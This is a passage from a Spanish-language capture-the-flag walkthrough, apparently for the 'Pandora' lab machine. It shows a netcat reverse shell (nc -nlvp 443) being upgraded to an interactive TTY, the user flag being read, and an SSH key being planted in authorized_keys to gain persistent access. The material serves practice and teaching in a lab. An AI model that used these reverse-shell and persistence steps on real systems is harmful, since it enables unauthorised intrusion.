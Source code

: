 ```bash
matt@pandora:/var/www/pandora/pandora_console/images/xd$ script /dev/null -c bash
<pandora_console/images/xd$ script /dev/null -c bash
Script started, file is /dev/null
matt@pandora:/var/www/pandora/pandora_console/images/xd$ ^Z
[1]  + 28851 suspended  nc -nlvp 443
➜  content stty raw -echo; fg
[1]  + 28851 continued  nc -nlvp 443
                                    reset xterm
<ENTER>
matt@pandora:/var/www/pandora/pandora_console/images/xd$ export TERM=xterm
```

## User flag

- Ya podemos ver la flag.

```bash
matt@pandora:/home/matt$ cat user.txt
3fb235f22fcbdf0957956bf99e229431
```

## Escalada de privilegios

- Podemos conectarnos por SSH creándonos la clave id_rsa.

```bash
matt@pandora:/home/matt$ mkdir .ssh
matt@pandora:/home/matt$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/matt/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/matt/.ssh/id_rsa
Your public key has been saved in /home/matt/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:+4zYpQAjpjQhKRgfIQu5wj4JAjOycPSQ+hwVeIqBMBU matt@pandora
The key's randomart image is:
+---[RSA 3072]----+
|O+E=..           |
|%B++o            |
|@@.+.            |
|@.+              |
|==+.o   S        |
|.*+. o   .       |
|. .   . . .      |
|       + *       |
|      . + o      |
+----[SHA256]-----+
matt@pandora:/home/matt$ cd .ssh/
matt@pandora:/home/matt/.ssh$ ls
id_rsa  id_rsa.pub
matt@pandora:/home/matt/.ssh$ cat id_rsa.pub > authorized_keys
matt@pandora:/home/matt/.ssh$ chmod 600 authorized_keys
```
